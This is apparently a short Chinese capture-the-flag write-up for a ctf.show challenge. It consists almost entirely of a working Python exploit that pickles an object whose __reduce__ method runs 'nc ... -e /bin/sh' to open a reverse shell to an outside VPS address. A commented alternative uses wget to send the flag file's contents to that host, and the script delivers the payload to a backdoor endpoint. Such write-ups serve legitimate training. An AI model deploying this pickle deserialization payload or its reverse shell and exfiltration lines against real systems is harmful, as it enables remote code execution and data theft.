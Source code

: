 师傅们的做法：是nc反弹shell，其中要用到vps, 贴一个payload吧

payload:

```python
import os
import pickle
import base64
import requests
class exp(object):
    def __reduce__(self):
        return (os.popen,('nc 150.158.181.145 2000 -e /bin/sh',))#此处需要nc VPS的IP...
    	#或者 wget http://150.158.181.145:2000/?a=`cat flag`

a=exp()
s=pickle.dumps(a)
url="http://2ecec748-b3b0-4285-8e82-3531e90c2679.chall.ctf.show:8080/backdoor"
params={
    'data':base64.b64encode(s)
}
r=requests.get(url=url,params=params)
print(r.text)
```

